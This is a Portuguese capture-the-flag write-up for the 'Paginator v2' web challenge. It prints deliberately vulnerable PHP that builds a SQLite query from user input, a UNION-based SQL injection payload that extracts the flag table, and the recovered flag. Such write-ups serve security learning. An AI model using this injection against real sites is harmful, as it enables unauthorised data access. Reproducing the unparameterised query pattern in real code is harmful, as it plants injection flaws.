 # Paginator v2

- *Autor do writeup: [@jackskelt](https://github.com/jackskelt)*
- *Autor do desafio: [@gehaxelt](https://github.com/gehaxelt)*

> Você pode acessar os arquivos do desafio no nosso repositório
> <https://github.com/HawkSecUnifei/Writeups>


Acessando a página inicial, podemos verificar o código fonte.

![Página inicial](assets/home.png)


```php
<?php
ini_set("error_reporting", 1);
ini_set("display_errors",1);

if(isset($_GET['source'])) {
    highlight_file(__FILE__);
}

include "flag.php"; // Now the juicy part is hidden away! $db = new SQLite3('/tmp/db.db');

try{
  $db->exec("CREATE TABLE pages (id INTEGER PRIMARY KEY, title TEXT UNIQUE, content TEXT)");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 1', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 2', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 3', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 4', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 5', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 6', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 7', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 8', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 9', 'This is not a flag, but just a boring page.')");
  $db->exec("INSERT INTO pages (title, content) VALUES ('Page 10', 'This is not a flag, but just a boring page.')");
} catch(Exception $e) {
  //var_dump($e);
}


if(isset($_GET['p']) && str_contains($_GET['p'], ",")) {
  [$min, $max] = explode(",",$_GET['p']);
  if(intval($min) <= 1 ) {
    die("This post is not accessible...");
  }
  try {
    $q = "SELECT * FROM pages WHERE id >= $min AND id <= $max";
    $result = $db->query($q);
    while ($row = $result->fetchArray(SQLITE3_ASSOC)) {
      echo $row['title'] . " (ID=". $row['id'] . ") has content: \"" . $row['content'] . "\"<br>";
    }
  }catch(Exception $e) {
    echo "Try harder!";
  }
} else {
    echo "Try harder!";
}
?>
```

Vemos que no código temos a importação do arquivo `flag.php`, que podemos tentar acessar. Ao acessar, nos deparamos com um erro do SQLite3 dizendo que a tabela `flag` já existe.

![Página flag.php](assets/flag-php.png)

Também podemos perceber que o trecho abaixo é vulnerável a SQL Injection. Podemos então criar um union com a tabela de flags. `UNION SELECT * FROM flag`.

```php
$q = "SELECT * FROM pages WHERE id >= $min AND id <= $max";
    $result = $db->query($q);
    while ($row = $result->fetchArray(SQLITE3_ASSOC)) {
      echo $row['title'] . " (ID=". $row['id'] . ") has content: \"" . $row['content'] . "\"<br>";
    }
```

A query antes do encoding fica: `/?p=2,10 UNION SELECT * from flag`. Assim obtemos a flag como base64, bastando somente fazer decoding
```
RU5Pe1NRTDFfVzF0aF8wdVRfQzBtbTRfVzBya3NfU29tZUhvd19BZ0Exbl9BbmRfQWc0MW4hfQ==
```

![Página inicial após o SQL Injection, mostrando a flag em base64](assets/flag-base64.png)

Obtendo a flag
```
ENO{SQL1_W1th_0uT_C0mm4_W0rks_SomeHow_AgA1n_And_Ag41n!}
```

![Flag após o decoding, foi utilizado o CyberChef](assets/flag-final.png)